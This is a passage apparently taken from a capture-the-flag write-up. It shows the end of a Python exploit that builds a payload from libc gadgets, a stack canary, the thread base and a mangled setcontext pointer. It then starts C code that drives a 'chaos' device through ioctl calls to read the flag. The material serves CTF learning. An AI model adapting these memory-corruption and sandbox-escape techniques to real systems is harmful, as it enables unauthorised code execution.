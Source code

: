 ```python
libc+0x0000000000130569,0,buf+0x80,
libc+0x00000000000d2745

)
payload = payload.ljust(0x102270-88,b"\x00")
payload += p64(fsbase+0x38)
payload = payload.ljust(0x102270,b"\x00")
payload += p64(fsbase)*5+p64(canary)
payload += b"\x00"*8
payload += p64(rol(setcontext,0x11,64)) + p64(buf-0xa0+0x100)
r.send(create_cmd(payload))

r.close()

```


### chaos [sandbox]

main.c
```cpp
#include <fcntl.h>
#include <unistd.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <errno.h>


int dev;
char *buf;
size_t fdaddr = 0;
struct __attribute__((__packed__)) Req {
    uint32_t op;
    uint32_t inp;
    uint32_t in_size;
    uint32_t key;
    uint32_t key_size;
    uint32_t out;
    uint32_t out_size;
};

#define CHAOS_ALLOCATE_BUFFER 1074317824
#define CHAOS_REQUEST 3223112192

#define check(x, msg) {if (!(x)) { puts(msg); return -1; }}

void dbg() { puts("> continue"); char c; read(0, &c, 1); }



int read_flag() {
    int ret;
    struct Req req = {
        .op = 6,
        .out = 0,
        .out_size = 128,

    };
    ret = ioctl(dev, CHAOS_REQUEST, &req);
    //check(ret == 0, "req failed");
    //ret = req.out_size;
```